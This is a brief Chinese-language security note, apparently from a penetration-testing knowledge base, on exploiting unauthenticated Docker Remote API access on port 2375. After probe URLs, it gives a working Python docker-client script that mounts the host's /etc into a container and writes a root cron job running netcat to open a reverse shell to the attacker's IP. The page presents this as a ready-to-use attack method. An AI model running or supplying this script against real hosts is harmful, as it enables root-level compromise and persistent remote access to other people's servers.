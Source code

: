 # Docker 2375端口

## 关于

<a-checkbox checked>该未授权访问漏洞是因为 Docker remote api 可执行docker命令，获取信息</a-checkbox></br>

<a-checkbox checked>从官方文档可以看出，该接口是目的是取代docker 命令界面，通过url操作docker。</a-checkbox></br>

<a-checkbox checked>而Docker swarm是docker下的分布化应用的本地集群，在开放2375监听集群容器时，就会调用这个api</a-checkbox></br>

## 攻击方法

访问目标，验证未授权API调用

```bash
http://xxx.xxx.xxx.xxx:2375/version
http://xxx.xxx.xxx.xxx:2375/containers/json
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1629509264213-4a39c72c-ce8c-42f4-af15-997bd7f86be6.png)

<a-checkbox checked>使用 Python脚本调用API 反弹Shell</a-checkbox></br>

```bash
import docker

client = docker.DockerClient(base_url='http://Remote-IP:2375/')
data = client.containers.run('alpine:latest', r'''sh -c "echo '* * * * * /usr/bin/nc your-ip 21 -e /bin/sh' >> /tmp/etc/crontabs/root" ''', remove=True, volumes={'/etc': {'bind': '/tmp/etc', 'mode': 'rw'}})
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1629509794103-4c27e6d1-8c28-441a-9b26-0f5326506451.png)